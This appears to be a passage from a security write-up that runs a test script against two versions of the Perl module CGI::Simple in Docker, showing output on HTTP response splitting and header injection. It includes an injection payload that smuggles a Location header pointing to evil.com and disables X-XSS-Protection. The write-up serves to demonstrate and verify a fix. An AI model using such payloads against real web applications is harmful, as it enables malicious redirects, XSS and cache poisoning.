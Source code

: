 ```bash


==============================

TEST 2: LITERAL NEWLINE VALIDATION
==================================================
✅ CRLF correctly blocked: Invalid header value contains a newline not followed by whitespace: x-test="value
with crlf" at /usr/local/lib/perl5/site_perl/5.36.3/CGI/Simple.pm line 1018.

✅ Normal value accepted

==================================================
SECURITY ASSESSMENT SUMMARY
==================================================
CGI::Simple Version: 1.281
Assessment Date: Wed Sep  3 13:34:24 2025
==================================================
❌ CRITICAL: Malicious Location header injected!
❌ CRITICAL: X-XSS-Protection disabled via injection!
❌ CRITICAL: Multiple Location headers injected!
❌ Literal newline allowed (should be blocked)
✅ CRLF properly blocked
✅ Normal values work correctly

==================================================
FINAL SECURITY STATUS
==================================================
❌❌❌ VULNERABLE: Security issues detected!
   The following attacks are possible:
   - HTTP Response Splitting
   - Header Injection
   - XSS Attacks
   - Cache Poisoning

   RECOMMENDATION: Apply security patches immediately

⚠️  NOTE: Version 1.281 is known to be vulnerable
   Upgrade to version 1.282 or apply security patches
```

<br>

The result is self-explanatory.

Now we repeat the same test in the service `cgi-simple-1282` as below:

<br>

```bash
$ docker-compose exec cgi-simple-1282 perl test-exploit.pl
CGI::Simple Security Vulnerability Test
==================================================
Version: 1.282
Test Date: Wed Sep  3 13:35:52 2025
==================================================

TEST 1: HTTP RESPONSE SPLITTING SIMULATION
==================================================
Payload: redirect=normal%0ALocation:https://evil.com%0AX-XSS-Protection:0
Decoded (escaped): normal\nLocation:https://evil.com\nX-XSS-Protection:0
Contains newlines: YES
Contains carriage returns: NO

```